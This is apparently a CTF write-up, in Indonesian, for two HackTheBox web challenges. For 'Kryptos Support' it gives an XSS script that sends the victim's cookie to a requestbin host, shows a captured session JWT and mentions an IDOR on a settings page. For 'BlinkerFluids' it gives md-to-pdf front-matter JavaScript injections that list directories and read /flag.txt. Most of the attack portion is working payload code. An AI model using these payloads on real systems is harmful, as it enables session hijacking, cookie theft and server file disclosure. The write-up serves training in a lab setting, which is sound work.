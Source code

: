 ## Kryptos Support
Disini kita menggunakan XSS vulnerability:
```
<script>document.location="https://requestbin.io/112j9z21?"+document.cookie;</script>
```
![](./dump/Pasted%20image%2020220515080633.png)
```
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1NzY2OTJ9._XSOlGzcLlymD93QD9JcaOtxN7KI9KwNfWz8JnED_J8
```

Kita bisa menggunakan IDORS pada:
http://68.183.37.74:30665/settings
![](./dump/Pasted%20image%2020220515093732.png)

### Flag
HTB{x55_4nd_id0rs_ar3_fun!!}

## BlinkerFluids

#### read directory

```
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```

#### read file

```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt', 'utf8')}"; display: block }`,
}
---
```

![](./dump/Pasted%20image%2020220515183045.png)

![](./dump/Pasted%20image%2020220515182844.png)

### Flag
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}

### Referensi
https://github.com/simonhaenisch/md-to-pdf/issues/99
https://www.geeksforgeeks.org/node-js-fs-readdirsync-method/ // to read directory
https://nodejs.dev/learn/reading-files-with-nodejs // to read file
